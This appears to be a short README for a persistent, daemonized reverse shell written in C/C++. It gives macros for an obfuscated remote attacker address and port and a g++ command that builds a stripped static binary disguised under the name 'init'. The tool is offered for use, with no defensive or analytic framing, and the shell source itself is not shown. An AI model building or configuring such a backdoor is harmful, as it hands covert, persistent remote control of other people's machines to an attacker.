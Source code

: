 ### persistent daemonizec reverse shell


Change with your public IP and open port
```c
#define REMOTE_ADDR OBFUSCATE("207.46.148.7")
#define REMOTE_PORT 5069
```

compile with
```bash
g++ daemon_shell.cpp -O3 -march=native -fPIC -g -s -static -o ./init
```

output binary will be names init :)

